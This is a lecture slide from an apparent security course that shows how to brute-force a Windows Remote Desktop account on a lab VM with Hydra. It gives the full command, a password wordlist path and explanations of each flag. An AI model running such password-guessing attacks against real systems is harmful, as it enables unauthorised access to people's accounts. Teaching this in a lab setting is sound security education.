

Hydra: Remote Online Password Cracking
Suppose the Win VM remote desktop is open, and has IP of 192.168.0.101, we attack the account “cis6395”:
#hydra -t 1 -V -l cis6395 -P /usr/share/john/password.lst 192.168.0.101 rdp
-t 1:  only use one connection (no parallel sessions since rdp does not like concurrent connection requests)
-V:  show each attempt
-l: usename
-P:  password list file
rdp:  service name (remote desktop, tcp 3389)
Note: We need to make the Win target logging out all user accounts in order for this rdesktop to work!
Note: the latest version of Kali seems to have a problematic hydra that does not work for rdp attack